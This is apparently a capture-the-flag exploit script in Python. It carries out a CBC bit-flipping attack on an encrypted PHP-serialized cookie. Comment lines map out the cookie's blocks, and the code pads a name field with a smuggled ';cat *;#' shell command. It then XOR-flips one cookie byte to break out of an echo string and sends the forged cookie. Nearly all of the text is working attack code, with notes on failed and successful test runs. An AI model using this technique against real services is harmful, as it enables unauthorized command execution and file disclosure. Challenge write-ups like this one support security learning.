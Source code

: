 ```
#a:2:{s:4:"name";
#s:10:"X;cat *;#a
#";s:8:"greeting"
#;s:24:"echo 'Hel
#lo X;cat *;#a!'"
#;}

#a:2:{s:4:"name";s:42:"zzzzzzzzzzzzzzzzzX;cat *;#zzzzzzzzzzzzzzzz";s:8:"greeting";s:56:"echo 'Hello zzzzzzzzzzzzzzzzzX;cat *;#zzzzzzzzzzzzzzzz!'";}
#a:2:{s:4:"name";
#s:42:"zzzzzzzzzz
#zzzzzzzX;cat *;#
#zzzzzzzzzzzzzzzz
#";s:8:"greeting"   
#;s:56:"echo 'Hel
#lo zzzzzzzzzzzzz
#zzzzX;cat *;#zzz
#zzzzzzzzzzzzz!'"
#;}
#exploit = 'X' + ';cat *;#a' #Test case first, unsuccess
exploit = 'z'*17 + 'X' + ';cat *;#' + 'z' *16 # Test Success

#exploit = "______________________________________________________; cat *;#"
#Test(exploit)
cookie = GetCookie(exploit)
pos = 100; #test case success
#pos = 51; #test case first, unsuccess
val = chr(ord('X') ^ ord("'") ^ ord(cookie[pos]))
exploit = cookie[0:pos] + val + cookie[pos + 1:]
Pwn(exploit)

```